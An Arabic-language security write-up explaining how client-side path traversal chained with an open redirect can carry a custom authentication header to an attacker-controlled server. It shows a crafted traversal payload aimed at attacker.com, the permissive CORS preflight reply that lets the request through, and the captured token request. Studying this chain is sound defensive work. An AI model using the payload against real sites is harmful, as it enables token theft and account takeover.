

# CSPT + Open Redirect = Account Takeover?

## وش هي CSPT
الـ CSPT (Client side path traversal) هي ثغرة path traversal تصير في المتصفح, في الـ URLs. تصير لما التطبيق يسوي fetch لـ path وفيه input منك, وهذا يخليك تستخدم `../` وحروف خاصة ثانية عشان تغير الـ path لمكان ثاني


مثال:

```js
userInput = new URLSearchParams(location.search).get('username'); // example: ?username=../../../SomePage
fetch("/api/users/" + userInput).then(response => {console.log(response.url)});
> https://example.com/SomePage
```

هذا مجرد مثال على كيف fetch تسوي normalize للـ path وكيف الـ userInput يكون داخل fetch بدون escaping (اغلب المواقع تسوي كذا)

عن طريق هذي الثغرة تقدر تتحكم بالـ path حق fetch, واذا التطبيق كان يستخدم الـ response حق fetch ممكن يصير عندك احتمالية تحكم بالـ content, انا قلت احتمالية علشان انت تتحكم بالـ path لكن ما تتحكم بالـ response نفسه, يعني انت محدود بالـ endpoints الموجودة اصلا في الموقع وبالشي الي ترجع لك

لكن لو لقيت endpoint تقدر تتحكم بالـ response حقه, ممكن تقدر تتحكم بالشي الي التطبيق يستقبله من fetch, بمعنى اخر تقدر تتحكم بنتيجة fetch

فـ باختصار, CSPT تخليك تغير المكان الي المتصفح يرسل له الـ request, لكن تظل محدود بالـ host حق الـ URL

## كيف المتصفح يتعامل مع Redirects و Headers

مثل ما تعرفون, لما ترسل request باستخدام fetch والسيرفر يرجع لك redirect (مثل 302), المتصفح راح يتبع الـ redirect تلقائي ويرسل request ثاني للـ URL الجديد

مثال:

```js
fetch("/api/user");
```

خلنا نقول ان `/api/user` رجع:

```
HTTP/1.1 302 Found
Location: https://another-domain.com/
```

المتصفح راح يتبع الـ redirect ويرسل request جديد لـ `https://another-domain.com/`

للحين شي بديهي, صح؟ طيب لو كان الـ request الاصلي فيه headers؟ هل المتصفح بيرسلها للـ URL الجديد بعد؟

هذا يعتمد على الـ headers

خلنا نقول ان التطبيق يستخدم Authorization header للـ authentication:

```js
fetch("/api/user", {
    headers: {
        "Authorization":"Bearer SECRET"
    }
});
```

لو `/api/user` سوا redirect لـ origin ثاني, المتصفح راح يحذف الـ Authorization header قبل لا يتبع الـ redirect عشان الـ token ما ينرسل للـ origin الجديد

هذا behavior طبيعي في  https://fetch.spec.whatwg.org/#http-redirect-fetch fetch

في step 13:

> If request’s current URL’s origin is not same origin with locationURL’s origin, then for each headerName of CORS non-wildcard request-header name, delete headerName from request’s header list.

المقصود فيه اذا تغير origin حق url وصار من same origin الى cross origin راح يحذف CORS non-wildcard headers
والـ [CORS non-wildcard request-header](https://fetch.spec.whatwg.org/#cors-non-wildcard-request-header-name) هو header name يطابق `Authorization` بدون ما يفرق بين الحروف الكبيرة والصغيرة

في هذي الحالة ما نقدر نسوي شي (اذا التطبيق يستخدم Authorization header), لكن وش لو التطبيق ما يستخدم Authorization header وبداله يستخدم custom header مثل X-User-Token او X-Api-Key او غيرها من هذي الـ headers...

على عكس Authorization header, الـ custom headers الي ذكرتها فوق ما تنحذف تلقائيا بسبب قاعدة الـ redirect هذي, ولما يتغير الـ origin راح يبقى الـ header موجود يوم المتصفح يتبع redirect, لكن هذا مو معناه انه بينرسل مباشرة, لان فيه مشكلة بسيطة, المتصفح ما راح يرسل الـ custom headers للـ origin الجديد بدون ما يتأكد اول اذا كان مسموح, وهنا يجي دور CORS

## دمج CSPT مع Open Redirect

للحين عرفنا ان CSPT تخلينا نتحكم بالـ path حق fetch request, وعرفنا بعد ان المتصفح ما يحذف الـ custom headers تلقائيا لما يتبع redirect لـ origin ثاني

لكن وش لو دمجنا الاثنين مع بعض?

خلنا نفترض عندنا موقع فيه ثغرة CSPT, ونفس الموقع فيه server-side open redirect endpoint, مثلا `/redirect?url=https://attacker.com`

بالعادة CSPT تخلينا نغير الـ path حق الـ request على نفس الـ origin فقط, لكن وش لو استخدمناها عشان نخلي fetch يروح للـ open redirect endpoint بدال الـ path الاصلي?

خلنا ناخذ مثال:

```js
const userInput = new URLSearchParams(location.search).get("username");

fetch("/api/users/" + userInput, {
    headers: {
        "X-User-Token": "SECRET"
    }
});
```

التطبيق ياخذ الـ username من الـ URL ويحطه داخل fetch, ومثل ما شرحنا قبل نقدر نستخدم `../` عشان نغير الـ path

طيب وش لو عطيناه شي مثل كذا?

```
?username=../../../redirect%3Furl%3Dhttps%3A%2F%2Fattacker.com
```

الحين بدال ما يرسل request لـ `/api/users/{username}`, الـ fetch راح يرسل request لـ:

```
https://example.com/redirect?url=https://attacker.com
```

ومعه الـ `X-User-Token` header

وبما ان `/redirect` هو open redirect, راح يرجع:

```
HTTP/1.1 302 Found
Location: https://attacker.com
```

الحين fetch راح يحاول يتبع الـ redirect لسيرفرنا, ومثل ما ذكرنا فوق الـ custom headers مثل `X-User-Token` ما تنحذف بنفس القاعدة الي تحذف Authorization

وبكذا قدرنا نستخدم CSPT عشان نحول same origin request الى cross origin request, مع بقاء الـ custom authentication header

هل هذا يعني ان الـ token راح ينرسل لسيرفرنا؟

لا, لان باقي عندنا مشكلة ثانية لازم نتعامل معها, وهي CORS preflight

## مشكلة CORS Preflight

حاولنا نخلي fetch يتبع الـ open redirect لسيرفرنا مع بقاء الـ custom authentication header, لكن فيه مشكلة

لما المتصفح يحاول يرسل cross origin request ومعه custom header مثل `X-User-Token`, ما راح يرسل الـ request الفعلي مباشرة

السبب ان `X-User-Token` مو من الـ CORS-safelisted request headers, وهذا يعني ان المتصفح لازم يسوي CORS preflight قبل ما يرسل الـ request الفعلي

هذا الـ behavior موضح في [Fetch Standard](https://fetch.spec.whatwg.org/#concept-main-fetch), تحت Main fetch, وهناك المتصفح يفحص الـ unsafe-request flag والـ method والـ CORS-unsafe request-header names عشان يحدد اذا يحتاج يسوي preflight او لا

الـ preflight نفسه عبارة عن OPTIONS request يتأكد اذا السيرفر الي رايح له الـ request يسمح بالـ method والـ headers حق الـ request الاصلي

مثلا, بدال ما المتصفح يرسل GET request ومعه الـ token مباشرة لـ `attacker.com`, راح يرسل اول:

```
OPTIONS / HTTP/1.1
Host: attacker.com
Origin: https://example.com
Access-Control-Request-Method: GET
Access-Control-Request-Headers: x-user-token
```

الـ preflight request ما يحتوي على الـ token نفسه, يحتوي بس على اسم الـ header داخل `Access-Control-Request-Headers` بس

وهذا بعد موضح في خوارزمية [CORS-preflight fetch](https://fetch.spec.whatwg.org/#cors-preflight-fetch), بحيث ان المتصفح يسوي preflight request ويضيف `Access-Control-Request-Method` و `Access-Control-Request-Headers` بناء على الـ request الاصلي

المتصفح هنا قاعد يسأل سيرفرنا اذا مسموح له يرسل GET request ومعه `X-User-Token` header

اذا السيرفر ما رجع الـ CORS headers المطلوبة, المتصفح راح يفشل الـ preflight check وما راح يرسل GET request الفعلي

وهذا يعني اننا ما راح نستقبل الـ authentication token, حتى لو المتصفح احتفظ بالـ custom header اثناء الـ redirect

طيب كيف نخلي المتصفح يرسل الـ request ومعه الـ token فعليا?

## تجاوز مشكلة Preflight باستخدام CORS Headers

الـ preflight request مو شي نحتاج نسوي له bypass فعليا, احنا بس نحتاج نخلي السيرفر يسمح فيه

بما ان fetch قاعد يرسل الـ request لموقعنا, وهذا موقعنا نقدر نسوي الي نبي! مثل نقدر نتحكم بالـ response headers ونقول للمتصفح يسمح بكل شي عن طريق CORS headers

مثلا, السيرفر يقدر يرد على OPTIONS request بـ:

```
HTTP/1.1 204 No Content
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: GET
Access-Control-Allow-Headers: X-User-Token
```

هذي الـ headers راح تسوي التالي:

- `Access-Control-Allow-Origin: *`
origin نسمح لأي ريكويست من أي 
- `Access-Control-Allow-Methods: GET` نقول للمتصفح ان GET method مسموح
- `Access-Control-Allow-Headers: X-User-Token` تقول للمتصفح ان `X-User-Token` header مسموح

المتصفح يفحص الـ response status والـ methods المسموحة والـ headers المسموحة عشان يحدد اذا يقدر يكمل الـ request الفعلي

اذا نجح الـ preflight check, المتصفح يقدر الحين يرسل GET request ومعه الـ custom header

وهذي هي الفكرة كلها, احنا ما سوينا bypass لاي browser security restriction, كل الي سويناه اننا خلينا السيرفر الي بنرسل له الـ request يوافق على الـ cross origin request باستخدام CORS headers

## تسريب الـ Authentication Token

الحين بعد ما عرفنا كيف نعدي الـ CORS preflight check, خلنا نجمع كل الي شرحته

اول ما ينجح الـ preflight, المتصفح يقدر يكمل ويرسل GET request الفعلي لسيرفرنا, لكن هالمره الـ request راح يحتوي على `X-User-Token` header بنفس الـ value الاصلي

مثلا, بافتراض ان المتصفح قدر يتبع الـ redirect بنجاح, سيرفرنا راح يستقبل شي مثل:

```
GET / HTTP/1.1
Host: attacker.com
Origin: null
X-User-Token: SECRET
```

وبس كذا!, الحين الـ authentication token طلعناه

هذا graph بسيط سويته عشان اوضح الفكرة:



